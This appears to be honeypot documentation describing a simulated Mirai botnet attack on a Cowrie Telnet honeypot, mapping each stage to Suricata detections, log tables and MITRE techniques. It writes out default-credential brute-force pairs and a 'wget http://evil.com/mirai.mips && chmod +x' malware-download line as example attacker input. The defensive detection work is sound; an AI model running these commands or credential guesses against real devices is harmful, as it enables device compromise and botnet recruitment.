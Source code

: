 ```

RESULT: Full attack chain captured and neutralized
        All stages logged to ClickHouse
        No actual compromise occurred
```

---

## Scenario 1: IoT Botnet Infection

### Mirai Botnet Attack Pattern

**Attacker Profile**:
- **Origin**: China (CN)
- **Target**: Telnet (port 23)
- **Goal**: Recruit device into botnet for DDoS attacks

### Attack Timeline

```
T+0s: Initial Scan
──────────────────
  Attacker scans entire subnet for port 23
  → Detection: Suricata SID 1000025 (Port Scan)
  → Logged: network_connections (multiple SYN to port 23)

T+5s: Connection Established
────────────────────────────
  Attacker connects to Cowrie Telnet honeypot
  → Detection: Cowrie logs connection
  → honeypot_events: protocol='telnet', event_type='cowrie_connection'

T+10s: Brute Force Attack
─────────────────────────
  Attacker tries default credentials:
    - admin:admin
    - root:root
    - admin:1234
    - user:user
  → Detection: Suricata SID 2000002 (Telnet Brute Force)
  → Logged: credentials table (4 attempts)
  → MITRE: T1110.001 (Brute Force: Password Guessing)

T+15s: Successful Login
───────────────────────
  Credential "admin:admin" succeeds (intentionally allowed)
  → credentials.success = 1
  → Cowrie: Session established, assigns session_id

T+20s: Malicious Commands
─────────────────────────
  Attacker executes reconnaissance:
    "/bin/busybox MIRAI"  ← Botnet identifier
  → Detection: Suricata SID 1000004 (Mirai Scanner Activity)
  → honeypot_events: command='/bin/busybox MIRAI'
  → MITRE: T1059 (Command and Scripting Interpreter)

T+25s: Malware Download
───────────────────────
  "cd /tmp && wget http://evil.com/mirai.mips && chmod +x mirai.mips"
  → Detection: Suricata SID 2000027 (Suspicious Binary Download)
  → downloaded_files: file_hash=a3f8b9c2..., filename='mirai.mips'
  → MITRE: T1105 (Ingress Tool Transfer)
```